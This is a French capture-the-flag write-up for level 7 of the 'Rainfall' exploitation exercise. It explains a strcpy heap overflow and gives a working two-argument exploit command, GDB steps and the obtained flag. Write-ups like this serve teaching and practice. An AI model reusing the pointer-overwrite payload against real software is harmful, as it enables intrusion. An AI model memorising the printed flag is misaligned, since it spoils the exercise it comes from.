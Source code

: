 # Rainfall - Niveau 7

## Objectif

Exploiter une vulnérabilité de type buffer overflow pour rediriger l'exécution vers une fonction cachée (`m`) et récupérer le flag.

## Analyse détaillée de la vulnérabilité

Le programme effectue plusieurs allocations mémoire via `malloc(8)` à plusieurs reprises. Chaque appel à `malloc` réserve exactement 8 octets.

La vulnérabilité se trouve dans l'utilisation de la fonction dangereuse `strcpy()`, qui ne vérifie pas la taille du buffer destination. Le premier appel à `strcpy` peut déborder et écraser un pointeur utilisé comme destination lors d'un second appel à `strcpy`. Cette situation permet de détourner le flux d'exécution.

## Stratégie d'attaque

1. Identifier la fonction cible dans le binaire : la fonction `m` située à l'adresse `0x080484f4`.
2. Identifier un pointeur en mémoire pouvant être écrasé afin de contrôler la destination du second appel à `strcpy()`.
3. Construire une commande avec deux arguments :

   * Le premier déborde le buffer initial avec 20 caractères (`"A"`) puis écrase le pointeur cible avec l'adresse contrôlée `0x08049928`.
   * Le deuxième argument contient l'adresse de la fonction `m` (`0x080484f4`).

## Exploit détaillé

Commande utilisée :

```bash
./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
```

### Explication détaillée du fonctionnement de l'exploit

* Premier argument : remplit les 20 octets du buffer initial, puis écrase le pointeur servant de destination au second `strcpy`.
* Second argument : l'adresse de la fonction `m` est placée en mémoire à l'endroit déterminé par l'écrasement précédent, permettant ainsi de détourner l'exécution du programme.

## Utilisation de GDB pour l'analyse

### Étapes avec GDB

1. Lancer GDB avec le programme :

```bash
gdb ./level7
```

2. Définir des breakpoints importants pour suivre l'exécution :

```gdb
(gdb) break strcpy
(gdb) run $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
```

3. Examiner l'état des registres et de la mémoire au moment des breakpoints :

```gdb
(gdb) info registers
(gdb) x/20x $esp
```

4. Désassembler la fonction `main` ou la fonction vulnérable si nécessaire pour bien comprendre ce qu’il se passe :

```gdb
(gdb) disass main
(gdb) disass 0x080484f4
```

5. Observer précisément comment le pointeur en mémoire est modifié :

```gdb
(gdb) x/x 0x08049928
```

Ces étapes permettent de confirmer comment l'exécution du programme est manipulée pour déclencher l’appel à la fonction `m`.

## Flag obtenu

```
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

## Conclusion

Ce niveau illustre précisément comment des fonctions non sécurisées comme `strcpy()` peuvent causer des failles exploitables. L'analyse avec GDB apporte une compréhension plus profonde du processus d'exploitation et de manipulation mémoire nécessaire pour détourner l’exécution.
